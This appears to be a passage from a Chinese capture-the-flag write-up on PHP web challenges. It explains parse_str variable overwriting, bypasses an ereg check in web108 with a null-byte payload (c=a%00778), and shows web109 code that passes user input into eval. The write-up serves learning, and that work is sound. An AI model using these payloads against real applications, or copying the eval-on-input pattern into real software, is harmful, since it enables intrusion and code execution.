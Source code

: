 parse_str将字符串解析成多个变量

```php
<?php
$a = "flag=123&foo=456";
parse_str($a,$output);
echo $output['flag']; //123
echo $output['foo'];  //456
?>
```

payload

```
v3=123456
v1=flag=e10adc3949ba59abbe56e057f20f883e
```

## web108(ereg)

```php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?> 
```

ereg函数

正则匹配的一种，可以使用%00截断正则匹配

strrev

字符串逆序

payload：`c=a%00778`

## web109(内置类的利用)

```php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?> 
```
